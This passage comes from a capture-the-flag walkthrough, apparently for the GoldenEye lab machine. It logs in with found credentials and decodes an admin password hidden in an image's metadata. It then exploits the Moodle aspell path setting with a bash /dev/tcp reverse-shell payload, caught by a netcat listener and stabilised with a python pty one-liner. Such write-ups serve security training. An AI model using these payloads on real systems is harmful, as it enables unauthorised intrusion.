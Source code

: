 <pre>dr_doak</pre>
<pre>4England!</pre>

Log in as dr_doak on the website. In dr_doak's personal files, you will see a file named `s3cret`.

![image-13](https://github.com/user-attachments/assets/8ad609b9-e985-4563-943b-e7cb69c542f8)

![image-14](https://github.com/user-attachments/assets/48527fb3-dbb4-4df5-a960-e231fc82e3fa)

Go to `severnaya-station.com/dir007key/for-007.jpg` and download the image. Use exiftool on your local machine to inspect its metadata. The image description contains an encrypted string. Paste the value into CyberChef to decrypt it.

![image-17](https://github.com/user-attachments/assets/02f77cd4-e9f0-477e-9d30-265c9212f529)

![image-15](https://github.com/user-attachments/assets/ce764fd9-73dc-4cfd-8deb-886401a48d4e)

<pre>xWinter1995x!</pre>

Return to the website and log in as admin using this password. Then, search for “aspell” in the site’s search input. You will discover that the aspell path can be exploited to obtain a reverse shell. 

<span style="line-height:0.5;">&nbsp;</span>

Set up your Netcat Listener on Your Machine:  

```BASH
netcat -lnvp 4444
```

![image-18](https://github.com/user-attachments/assets/ee3ae60a-4867-4258-b30f-32b2219317e6)

In the aspell path input field, provide the following payload:
```BASH
bash -c 'exec bash -i &>/dev/tcp/10.10.166.60/4444 <&1'
```

![image-25](https://github.com/user-attachments/assets/0d86620d-ab19-430a-9be6-80d44a99f5db)

Then, force the spellchecker to run so the payload executes. Once you have a reverse shell, stabilize it:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-26](https://github.com/user-attachments/assets/8a5b8ae5-b468-4f4d-86f9-8abed106a519)

<span style="line-height:0.5;">&nbsp;</span>

### Whats the kernel version?
```BASH
uname -a
```

![image-27](https://github.com/user-attachments/assets/b40972b1-5233-4809-88cc-a230c662a196)
